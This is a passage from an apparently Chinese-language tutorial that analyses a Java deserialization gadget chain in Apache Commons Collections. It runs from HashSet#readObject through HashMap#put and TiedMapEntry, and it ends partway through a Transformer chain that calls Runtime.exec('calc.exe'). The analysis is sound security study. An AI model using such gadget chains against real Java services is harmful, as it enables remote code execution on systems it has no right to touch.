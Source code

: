 ```java
                e.recordAccess(this);
                return oldValue;
       ...
    }
```

继续寻找满足

1. 调用了 HashMap#put
2. 传入的key需可控



入口HashSet#readObject：对我们的输入流直接进行反序列化

```java 
private void readObject(java.io.ObjectInputStream s){
...
 for (int i=0; i<size; i++) {
            E e = (E) s.readObject();
            map.put(e, PRESENT);
        }}
```

调用了map.put，其中map我们可以控制为HashMap。

但传入的参数e是从readObject取出来的，那么就去看看writeObject怎么写的：

```Java
 private void writeObject(java.io.ObjectOutputStream s){
    ...
    for (E e : map.keySet()) // 如果我们能够控制 map 中的 key，那么我们就能控制 s
            s.writeObject(e);
 }
```



梳理一下现在的目标是：

控制传入map的keySet的返回结果 来控制变量，即：通过反射修改keySet的返回结果为**[TiedMapEntry]**对象

![image-20220310103650780](image/image-20220310103650780.png)

##### 构造Gadget

```Java
Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),

                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),

                new InvokerTransformer("exec",
                        new Class[] { String.class },
                        new String[] { "calc.exe" }),
```